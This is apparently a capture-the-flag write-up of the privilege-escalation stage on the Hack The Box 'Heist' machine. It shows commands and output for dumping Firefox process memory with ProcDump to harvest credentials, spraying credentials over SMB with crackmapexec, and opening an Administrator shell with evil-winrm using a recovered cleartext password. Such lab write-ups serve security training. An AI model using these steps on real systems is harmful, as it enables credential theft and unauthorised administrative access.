


# 20 - PrivEsc


# Firefox is installed


Firefox is an interesting target, it may include any kind of information in memory. Dumping the memory could give us pretty much anything

# Memory dump
```powershell
*Evil-WinRM* PS C:\Users\Chase\Documents> .\procdump.exe -accepteula -ma 6248

ProcDump v10.1 - Sysinternals process dump utility
Copyright (C) 2009-2021 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[14:40:59] Dump 1 initiated: C:\Users\Chase\Documents\firefox.exe_210805_144059.dmp
[14:40:59] Dump 1 writing: Estimated dump file size is 546 MB.
[14:41:00] Dump 1 complete: 546 MB written in 1.3 seconds
[14:41:00] Dump count reached.
*Evil-WinRM* PS C:\Users\Chase\Documents> download firefox.exe_210805_144059.dmp
Progress: 21% : |▓▒░░░░░░░░| 
```

ProcDump is a sysinternals tool. However, the dump takes some time to download.


# Admin password



# Shell
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/heist]
└──╼ $ cme smb 10.10.10.149 -u user.lst -p pass.lst  
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\Administrator:4dD!5}x/re8]FBuZ (Pwn3d!)
┌─[user@parrot]─[10.10.14.18]─[~/htb/heist]
└──╼ $ evil-winrm -i 10.10.10.149 -u Administrator -p '4dD!5}x/re8]FBuZ'

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
supportdesk\administrator

```